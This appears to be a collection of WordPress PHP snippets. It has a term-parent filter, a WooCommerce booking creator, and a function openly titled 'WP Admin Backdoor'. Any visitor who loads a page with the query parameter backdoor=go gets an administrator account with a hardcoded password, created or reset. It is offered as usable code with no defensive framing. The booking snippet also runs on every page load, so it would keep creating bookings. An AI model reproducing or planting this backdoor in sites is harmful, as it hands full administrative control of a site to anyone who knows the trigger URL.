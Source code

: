 # Snippets
	/**
	* Updating parent on term edit screen
	*/
	add_filter('wp_update_term_parent','test_func',10,5);
	function test_func($parent, $term_id, $taxonomy, $parsed_args, $args) {
		$parent = 19;
		return $parent;
	}
	
	/**
	* WP Admin Backdoor
	*/
	add_action('wp_head', 'WordPress_backdoor');
	function WordPress_backdoor() {
	    If ($_GET['backdoor'] == 'go') {
		require('wp-includes/registration.php');
		require('wp-includes/pluggable.php');
		If (!username_exists('backdooradmin')) {
		    $user_id = wp_create_user('backdooradmin', 'Pa55W0rd');
		    $user = new WP_User($user_id);
		    $user->set_role('administrator');
		}else{
		    $user = get_user_by( 'login', 'backdooradmin' );
		    wp_set_password('Pa55W0rd', $user->ID);
		}
	    }
	}
	
	/**
	* Create WooCommerce Bookings
	*/
	add_action('init','set_new_booking');
	function set_new_booking() {
	$new_booking = new WC_Booking();
	$create_order = 'unpaid';
	$new_booking->set_status( $create_order ? 'unpaid' : 'paid' );
	$new_booking->set_date_created( current_time( 'timestamp' ) );
	$new_booking->set_all_day('yes');
	$new_booking->set_person_counts(2);
	$new_booking->set_start('2018-2-2');
	$new_booking->set_end('2018-2-5');
	$new_booking->set_cost(450);
	/*
	$userdata = array(
	    'user_login' =>  'abcd@gmail.com',
	    'user_email' =>  'abcd@gmail.com',
	    'first_name' =>  'abcd@gmail.com',
	    'last_name' =>  'abcd@gmail.com',
	    'role' => 'customer',
	    'user_pass'  =>  wp_generate_password( 8, false )
	); 

	$user_id = wp_insert_user($userdata);
	$new_booking->set_customer_id($user_id);*/
	$new_booking->save();
	}
